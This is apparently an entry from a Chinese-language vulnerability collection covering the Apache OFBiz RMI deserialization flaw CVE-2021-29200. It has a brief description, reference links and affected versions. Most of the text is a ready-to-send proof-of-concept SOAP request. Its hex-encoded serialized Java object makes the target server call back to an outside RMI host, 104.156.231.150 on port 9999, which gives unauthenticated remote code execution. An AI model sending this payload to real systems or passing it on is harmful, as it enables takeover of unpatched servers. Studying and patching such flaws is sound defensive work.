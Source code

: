 # 

# Apache OFBiz RMI Bypass RCE CVE-2021-29200

## 漏洞描述

由于Apache OFBiz存在Java RMI反序列化漏洞，未经身份验证的用户可以执行RCE攻击，导致服务器被接管。

参考链接：

- https://mp.weixin.qq.com/s/vM0pXZ5mhusFBsj1xD-2zw
- https://xz.aliyun.com/t/9556

## 漏洞影响

```
Apache OFBiz < 17.12.07
```

## 漏洞复现

poc：

```
POST /webtools/control/SOAPService HTTP/1.1
Host: xxx
User-Agent: python-requests/2.24.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: text/xml
Content-Length: 877


<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ser="http://ofbiz.apache.org/service/">  
  <soapenv:Header/>  
  <soapenv:Body>
    <ser>
      <map-Map>
        <map-Entry>
          <map-Key>
            <cus-obj>ACED0005737200326A617661782E6D616E6167656D656E742E72656D6F74652E726D692E524D49436F6E6E656374696F6E496D706C5F5374756200000000000000020200007872001A6A6176612E726D692E7365727665722E52656D6F746553747562ECC98BE1651A0200007872001C6A6176612E726D692E7365727665722E52656D6F74654F626A656374D361B4910C61331E03000078707738000A556E6963617374526566000F3130342E3135362E3233312E3135300000270FFFFFFFFFEF34D1DB00000000000000000000000000000078</cus-obj>
          </map-Key>  
          <map-Value>  
            <std-String/>
          </map-Value>
        </map-Entry>
      </map-Map>
    </ser>
  </soapenv:Body>
</soapenv:Envelope>
```


